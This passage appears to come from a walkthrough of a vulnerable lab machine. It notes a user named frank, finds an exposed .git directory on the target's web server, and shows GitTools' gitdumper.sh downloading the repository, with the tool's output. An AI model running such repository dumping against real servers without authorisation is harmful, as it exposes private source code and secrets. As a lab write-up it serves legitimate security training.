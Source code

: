 A user named frank was identified.

![](/assets/images/devguru/screenshot-4.png)

Going back to the web application on port 80, an exposed .git repository was detected, to fetch that directory from the target web server we will use GitTools.

We download it from the following repository:

```console
root@kali:~$ git clone https://github.com/internetwache/GitTools.git
```

We run the following command to dump it to our machine.

```console
root@kali:~$ GitTools/Dumper/gitdumper.sh http://192.168.179.166/.git/ .   
###########                                                                       
# GitDumper is part of https://github.com/internetwache/GitTools         
#                                                                                 
# Developed and maintained by @gehaxelt from @internetwache                       
#                                                                                 
# Use at your own risk. Usage might be illegal in certain circumstances.          
# Only for educational purposes!                                                  
###########                                                                       


[*] Destination folder does not exist
[+] Creating ./.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
...
```
